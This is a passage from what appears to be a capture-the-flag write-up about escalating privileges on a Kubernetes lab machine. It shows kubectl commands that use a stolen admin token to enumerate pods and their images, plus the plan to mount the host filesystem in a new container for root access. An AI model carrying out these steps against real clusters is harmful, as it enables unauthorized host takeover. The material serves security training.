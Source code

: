 As with previous docker attacks, the idea is to create a new container and map the host filesystem into the container, where I will be root. That is basically root access to the host filesystem. The YAML files described in the articles all involve pulling docker images from the internet. Because Unobtainium won’t have internet access, I’ll opt to work from an image that’s already on the host.

I can get the full YAML for a pod with `get pod [name] -n [namespace]`:

```

oxdf@parrot$ kubectl get pod webapp-deployment-5d764566f4-h5zhw -o yaml --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
apiVersion: v1
kind: Pod              
metadata:                                     
  creationTimestamp: "2021-02-15T18:15:14Z"
  generateName: webapp-deployment-5d764566f4-
  labels:              
    app: webapp                               
    pod-template-hash: 5d764566f4
  name: webapp-deployment-5d764566f4-h5zhw
  namespace: default   
  ownerReferences:                            
  - apiVersion: apps/v1
    blockOwnerDeletion: true
    controller: true   
    kind: ReplicaSet                          
    name: webapp-deployment-5d764566f4
    uid: 3cb2f003-ad0a-4b62-8678-ef8a552554c6
  resourceVersion: "19306"
  uid: 2b7cd0d1-d2a3-4057-a797-c1b1317a9ee9
spec:                        
  containers:
  - image: localhost:5000/node_server
    imagePullPolicy: Always
    name: webapp
...[snip]...

```

I’ll loop over all the pods and see what images they are running. There’s only two:

```

oxdf@parrot$ kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt | grep -v NAMESPACE | while read line; do ns=$(echo $line | awk '{print $1}'); name=$(echo $line | awk '{print $2}'); kubectl get pod $name -o yaml -n $ns --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt | grep '  - image: '; done | sort -u
  - image: localhost:5000/dev-alpine
  - image: localhost:5000/node_server

```

Here’s the full command with whitespace for readability:
